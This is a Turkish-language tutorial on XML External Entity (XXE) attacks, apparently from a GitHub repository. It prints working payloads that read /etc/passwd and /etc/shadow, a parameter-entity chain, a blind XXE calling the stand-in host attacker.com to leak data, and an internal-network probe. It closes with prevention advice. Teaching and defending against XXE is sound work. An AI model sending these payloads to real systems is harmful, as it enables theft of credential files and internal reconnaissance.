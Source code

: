 # XXE (XML External Entity) Nedir?

**XXE (XML External Entity)**, XML verisinin işlendiği sistemlerde, kötü niyetli aktörlerin XML dosyası içinde tanımlanmış harici bir varlığı (**external entity**) kullanarak hassas dosyalara erişim sağlaması, kod yürütmesi veya hizmet reddine (DoS) neden olmasıdır. XXE saldırıları genellikle güvenlik önlemleri eksik olan XML işleyicilerinden kaynaklanır.

---

## Temel Örnek

Aşağıdaki XML, basit bir XXE saldırısı örneğidir. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
### Açıklama
Bu XML kodu, XXE saldırısında kullanılan bir "payload"dır. Şimdi bunu satır satır inceleyelim:

1. Satır: <!ENTITY % file SYSTEM "file:///etc/passwd">

Burada file adında bir harici entity tanımlanıyor.
SYSTEM anahtar kelimesi ile yerel bir dosya olan /etc/passwd dosyasına erişim sağlanıyor.
file:///etc/passwd: Unix/Linux sistemlerde kullanıcı bilgilerinin yer aldığı dosyadır.
2. Satır: <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">

Burada eval adında bir entity tanımlanıyor.
eval entity'si, %file içeriğini bir başka entity'ye geçiriyor.
%: Bu hexadecimal değeri % karakterini temsil eder.
Böylece %file entity'sinin değeri (file:///etc/passwd'deki veri) exfil adlı yeni entity'ye dahil edilmiş olur.
3. Satır: %eval;

%eval; ile yukarıda tanımlanan eval entity'si tetiklenir.
Bu işlem sonucu %file entity'si exfil adında yeni bir entity'ye aktarılır.
4. Satır: %exfil;

%exfil; entity'si çağrılarak file:///etc/passwd dosyasındaki veriler XML işlemcisi tarafından okunmaya çalışılır.


### Açıklama

#### 1. `<!DOCTYPE foo>`
- **DOCTYPE (Document Type Definition):** XML belgesinin yapısını tanımlamak için kullanılır.
- `foo`: Bu bir isimdir ve genelde anlamlı olması gerekmez. XML belgesine bir "tip" vermek için kullanılır.

#### 2. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`
- **ENTITY (Varlık Tanımı):** XML içinde kullanılacak bir varlığı (entity) tanımlamak için kullanılır.
  - `xxe`: Bu, tanımlanan varlığın adıdır. Daha sonra `&xxe;` ile çağrılır.
- **SYSTEM:** Harici bir kaynağı işaret eder. 
  - Burada `file:///etc/passwd` belirtilmiştir. Bu, saldırganın sunucunun dosya sistemindeki hassas bir dosyaya erişmeye çalıştığı anlamına gelir (Linux sistemlerinde `/etc/passwd`, kullanıcı bilgilerini içerir).

#### 3. `<productId>&xxe;</productId>`
- `&xxe;`: Yukarıda tanımlanan harici varlık burada çağrılıyor. Bu, `/etc/passwd` dosyasının içeriğini alıp XML çıktısına eklemeye çalışır.

### Neden Gerekli?
Bu yapı, kötü niyetli bir saldırganın XML işlemcisini istismar edebilmesi için gereklidir:
- `DOCTYPE` ve `ENTITY` olmadan harici bir varlık tanımlanamaz.
- `SYSTEM` olmadan, sunucunun dosya sistemine veya harici kaynaklara erişim mümkün değildir.

**Beklenen Etki:**
Sunucu, `/etc/passwd` dosyasının içeriğini döndürebilir, böylece saldırgan hassas bilgiler elde eder.

---

## Daha İleri Seviye XXE Payload'ları

### 1. **Sunucu Dosyalarına Erişim**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Bu payload, Linux sisteminde kullanıcı şifrelerinin hash'lerini saklayan `etc/shadow` dosyasına erişmeye çalışır.

**Risk:**
- Erişim sağlanması durumunda, saldırgan brute force veya hash kırma araçlarıyla kullanıcı şifrelerini çözebilir.

### 2. **Harici Sunucu ile İletişim (Blind XXE)**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-data"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Harici bir sunucuya (ör. saldırganın kontrolündeki `attacker.com`) veri sızdırmak veya sistemin ağ içinde hangi kaynaklara erişebileceğini keşfetmek.

**Senaryo:**
- Eğer sunucu dış bağlantılara izin veriyorsa, bu saldırı hassas bilgilerin (örn. erişim token'ları veya sistem yapılandırma bilgileri) harici sunucuya gönderilmesine neden olabilir.

### 3. **Ağ İçi Keşif ve Port Taraması**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Sunucunun ağ içinde hangi dahili sistemlere erişebildiğini belirlemek.
- Dahili sunucu hizmetlerini keşfetmek (örn. `http://internal.vulnerable-website.com`).

**Risk:**
- Dahili hizmetlere erişim sağlanırsa, saldırgan sistemler arasında zafiyet arayabilir.

---

## XXE Önleme Yöntemleri

1. **Dış Varlıkları Devre Dışı Bırakma**
   - XML işlemcisinde harici varlıkları devre dışı bırakmak en etkili yöntemlerden biridir.
   - Örneğin, Java'da harici varlıkları devre dışı bırakmak:
     ```java
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
     dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
     dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
     ```

2. **Güvenli XML İşleme Kütüphaneleri Kullanma**
   - Harici varlıkları varsayılan olarak devre dışı bırakan güvenli kütüphaneler tercih edilmelidir (örn. `defusedxml` Python için).

3. **Input Doğrulama ve Filtreleme**
   - Kullanıcıdan gelen XML girişini doğrulamak ve potansiyel zararlı içerikleri filtrelemek.

4. **XML Yerine JSON Kullanımı**
   - Mümkünse, JSON gibi daha az karmaşık ve daha güvenli veri formatlarına geçiş yapılabilir.

---

## Özet
XXE saldırıları, zayıf yapılandırılmış XML işleyicilerinde ciddi güvenlik riskleri oluşturur. Bu zafiyetleri anlamak ve önleyici önlemler almak, uygulama güvenliği açısından kritik öneme sahiptir.
